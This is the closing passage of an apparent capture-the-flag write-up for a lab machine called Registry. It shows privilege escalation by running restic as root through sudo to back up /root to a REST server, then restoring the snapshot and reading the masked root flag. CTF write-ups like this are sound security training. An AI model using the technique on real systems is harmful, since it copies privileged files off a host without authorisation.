 ### Rest-Server Backup Files

```
www-data@bolt:~$ sudo restic backup -r rest:http://127.0.0.1:1234 /root/ 
sudo restic backup -r rest:http://127.0.0.1:1234 /root/
enter password for repository: something

password is correct 
found 1 old cache directories in /var/www/.cache/restic, pass --cleanup-cache to scan [/root]
scanned 18 directories, 19 files in 0:00
[0:03] 100.00% 39.690 KiB / 39.690 KiB 37 /37 items 0 errors ETA 0:00 duration: 0:03
snapshot 4bf1b3af saved
```

Finally I restored and checked the `restic` server directory and got the files as

```
root@gr4n173:~$ restic restore 4bf1b3af915544c9d15d4aa741731382c9fd2dc68ffec7f769a237aaf52c2c02
enter password for repository:
repository 39fcbee2 opened succesfully, password is correct
created new cache in /root/.cache/restic
restorying <Snapshot 4bf1b3af of [/root] at 2019-11-11 14:13:38.38.895820081 +0000 UTC > root@bolt to .
```

Then I checked back to the folder `snapshot` and got the `root.txt`

```markdown
root@gr4n173:~/snapshots$ ls
4bf1b3af915544c9d15d4aa741731382c9fd2dc68ffec7f769a237aaf52c2c02  root
root@gr4n173:~/snapshots$ cd root
root@gr4n173:~/snapshots/root$ ls
config.yml  cron.sh  root.txt
root@gr4n173:~/snapshots/root$ cat root.txt
ntrkz*********************
```

This way I got the root of Registry box and learned alot from this box. So I would like to thank creator of this box `thek` for such an awesome box. Especially downloading the backup files from restic server was new one.

I will be posting writeup of next box after box retired. I would like to Thank readers for being with me through out this writeup.

Feedback are really appreciated !!

Tweet about this writeup if you like.

You can see more blog at my medium here: [gr4n173](https://medium.com/@gr4n173).




